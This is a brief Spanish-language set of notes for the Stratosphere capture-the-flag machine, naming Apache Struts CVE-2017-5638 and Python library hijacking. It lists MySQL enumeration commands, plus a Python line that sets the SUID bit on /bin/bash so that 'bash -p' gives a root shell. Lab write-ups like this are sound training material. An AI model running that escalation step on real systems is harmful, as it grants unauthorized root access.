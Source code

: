 # Máquina Stratosphere

Máquina de dificultad fácil con los suguientes temas:

* Apache Struts Exploitation (CVE-2017-5638) 
* Python Library Hijacking (Privilege Escalation)

## Comandos/cosas interesantes

### MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

### PYTHON

#### Permisos de superusuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**

